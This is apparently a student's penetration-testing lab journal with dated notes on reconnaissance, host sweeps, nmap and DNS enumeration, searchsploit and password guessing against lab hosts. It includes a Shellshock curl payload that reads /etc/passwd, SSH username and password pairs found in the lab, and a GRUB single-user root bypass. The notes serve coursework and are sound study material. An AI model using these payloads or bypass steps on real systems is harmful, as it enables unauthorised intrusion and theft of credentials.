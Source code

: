 # Journal

## 1/21/2022
#### Passive Recon
- www.boltonvalley.com
- Tools
 - `whois`
 - `nslookup`
 - theHarvester
 - [archive.org](https://archive.org)

## 1/27/2022
- setup crd on kali
- installed wireguard on kali
- `sudo apt install wireguard`
### Modification
- `sudo wg-quick up wg0`
## 1/28/2022
- ephemeral port on src device
### Host Discovery
- ping
```bash
for ip in $(seq 2 50); do ping 10.0.5.$ip -c 1 -t 20| grep "bytes from" | grep -oP "(\d+\.){3}\d+" >> sweep.txt; done
```
- fping
```bash
sudo fping -g 10.0.5.2 10.0.5.50 | grep "alive" | cut -d " " -f 1 >> sweep2.txt
```
- nmap
```bash
sudo nmap -n --open -sn 10.0.5.2-50 | grep report | cut -d " " -f 5 > sweep3.txt
```
- & to not wait for command to complete
#### Reflections
- Had trouble with running bash file - Fixed with
```bash
chmod +x
```
- Really slow until lowered ttl for pings

## 2/3/2022
### nmap
- Needs sudo to check with ICMP to see if host is open
- Checks all ports even if host is down:
```bash
sudo nmap ip -Pn
```
- Target specific ports:
```bash
sudo nmap ip -p ports
```
- Get versions of:
```bash
sudo nmap ip -sV
```
- Checks everything and tracert:
```bash
sudo nmap ip -A
```
### Port Scanning
#### Enable RDP
- Settings > System > Remote Desktop
#### Reflection
- OS and Version detection not always accurate

## 2/4/2022
### PowerShell and DNS
- use single quotes around period to escape it
```bash
Resolve-DnsName -Name $network'.'$i -DnsOnly -Server $server | Select-Object -Property Name,NameHost
```
- for loops with -gt,-lt,-eq
- Pipe to Get-Member to list properties
- Pipe to Select-Object to use those properties
## 2/10/2022
### Bash and DNS
[DNS page](dns-enumeration.md)
### Reflections
- nmap -oG for greppable output
- `
dig axfr @nameserver domain
` for zone transfer
- `
nslookup -vc
` to use TCP instead of UDP
- `
nmap -sS -sU
` to query tcp and udp ports

## 2/11/2022
### Searchsploit
- use with version name and number to get exploits
- use with -m exploit number to download
### Test
- `
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/status,cmd="echo ; echo ; /usr/bin/whoami" 10.0.5.23
`
- `
curl -H 'User-Agent: () { :; }; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.0.5.23/cgi-bin/status
`
#### Reflections
- `
xfce4-panel -r
` to reload top bar
## 2/23/2022
### Cupcake

## 2/24/2022
### Password Guessing
[Password Cracking](password_cracking.md)
#### SSH
- peregrin.took Peregrin123
- frodo.baggins Strider2020
### Single User
- Reboot and press "e" on GNU/Linux
- add `single init=/bin/bash` to end of linux line
- remount drive `mount -rw -o remount /`
- `sync` and `umount /` before rebooting
## 3/3/2022
[Password Cracking](password_cracking.md)
## 3/10/2022
### FTP
- anonymous access with anonymous as username and no password
- get to download file and put to upload file
### MySQL
- can only work as local execution
- `mysql -u user -p`
- `SHOW DATABASES` and `SHOW TABLES`
- `SELECT * FROM TABLE`
### pbkdf2
- use john with format $type$iterations.salt.hash
- ensure if it has 64 to convert to hex first
## 4/1/2022
[Weevely](weevely.md)
### Reflection
- Much easier to have direct terminal access as opposed to typing in curl or in browser url bar
- 
